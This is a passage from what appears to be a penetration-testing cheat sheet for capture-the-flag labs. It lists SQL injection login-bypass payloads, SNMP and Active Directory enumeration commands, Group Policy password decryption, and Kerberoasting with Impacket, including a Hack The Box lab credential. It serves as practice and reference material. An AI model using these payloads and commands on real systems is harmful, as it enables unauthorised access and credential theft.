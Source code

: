 ```
admin" or 1=1#
admin" or 1=1/*
admin") or ("1"="1
admin") or ("1"="1"--
admin") or ("1"="1"#
admin") or ("1"="1"/*
admin") or "1"="1
admin") or "1"="1"--
admin") or "1"="1"#
admin") or "1"="1"/*
```
###  Extracting Data From Images
```bash
binwalk -e [image_file]
exiftool [image_file]
```
### When No Ports Are Reported Open by Nmap
- [ ] try using nmap's `-sU` flag for scanning UDP ports!
    * UDP scan's can take a while so also use the `-vvv` flag to retrieve information quickly
### SNMP Enumeration
```text
# basic
snmpwalk -c public -v2c [target]
snmp-check [target]

# enumerate users
snmpwalk -c public -v1 [target] 1.3.6.1.4.1.77.1.2.25

# enumerate running processes
snmpwalk -c public -v1 [target] 1.3.6.1.2.1.25.4.2.1.2

# enumerate open TCP ports
snmpwalk -c public -v1 [target] 1.3.6.1.2.1.6.13.1.3

# enumerate installed software
snmpwalk -c public -v1 [target] 1.3.6.1.2.1.25.6.3.1.2
```
### Decrypting Group Policy Passwords: cpassword
```bash
gpp-decrypt [hash]
```
### Dumping Active Directory users from linux with Impacket GetADUsers
```bash
# Example
GetADUsers.py -dc-ip 10.10.10.100 -all active.htb/svc_tgs
```
### Kerberos Authentication: Enumerate Service Principal Names
```bash
GetUserSPN.py [domain]/[user]:[password] -dc-ip [domain-controller-ip] -request

# Example from Active on Hackthebox
GetUserSPNs.py active.htb/SVC_TGS:GPPstillStandingStrong2k18 -dc-ip 10.10.10.100 -request
```
### POP3 Commands
```text
USER <username>
PASS <password>
STAT
```
